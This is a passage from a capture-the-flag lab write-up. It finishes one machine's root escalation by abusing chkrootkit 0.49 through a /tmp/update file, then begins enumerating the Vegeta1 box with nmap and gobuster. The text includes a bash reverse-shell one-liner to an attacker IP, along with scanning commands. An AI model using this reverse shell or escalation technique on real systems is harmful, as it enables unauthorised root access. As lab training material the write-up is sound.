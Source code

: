 ### Privilege Escalation

[PSPY](https://github.com/DominicBreuker/pspy) can be run on the machine. This gives a number of processes running. By looking at the output, the process `/bin/sh /root/chkrootkit-0.49/chkrootkit` is being run for about 5 seconds every minute. This coincides with the AV scan being run using the honeypot binary in the user's home directory.

Searchsploit lists a privilege escalation exploit. This exploit states that a file can be created by the name `update` and made executable. It will be executed by `chkrootkit` whenever it is run. The file must be placed under the `/tmp/` directory.

Therefore, a reverse shell code can be inserted into the file &rarr; `/bin/bash -i >& /dev/tcp/192.168.49.80/3002 0>&1`.

After a minute, a reverse shell is obtained as `root`. This gives the root flag.

---

## Vegeta1

### Enumeration

Machine IP &rarr; `192.168.72.73`

#### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.72.73`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                     |
| -------- | ----------- | ---------------------------------------------- |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                 |

#### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.72.73 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- img/ (301)
- image/ (301)
- admin/ (301)
- manual/ (301)
- server-status (403)
- bulma/ (301)

The robots.txt was checked manually during the scan was running. Robots file reveals a directory called `find_me`. This doesn’t contain any useful information either.

### Exploitation
